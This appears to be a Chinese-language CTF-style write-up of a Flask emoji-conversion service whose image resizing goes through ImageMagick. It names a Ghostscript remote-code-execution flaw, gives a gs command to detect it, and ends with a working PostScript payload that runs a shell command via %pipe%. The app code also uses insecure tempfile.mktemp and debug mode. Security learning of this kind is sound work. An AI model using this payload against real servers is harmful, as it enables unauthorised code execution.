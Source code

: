   ```python

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8080, debug=True)
  ```

这段代码本身没有问题，问题出在依赖的`PIL.Image`库,该库依赖于`ImageMagick`。可以通过`sudo apt-get install imagemagick`

ImageMagick1day利用。

代码:

```
python: newimg = img.resize((int(w*r), int(h*r)))
=> 
命令行: convert shell.jpeg -crop 100X100+10+10 img_crop.jpeg
```

主要是imagemaick的ghost script RCE漏洞。

```shell
gs -q -sDEVICE=ppmraw -dSAFER -sOutputFile=/dev/null
```

若成功执行则存在漏洞。

ubuntu下payload:

shell.jpeg:

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```
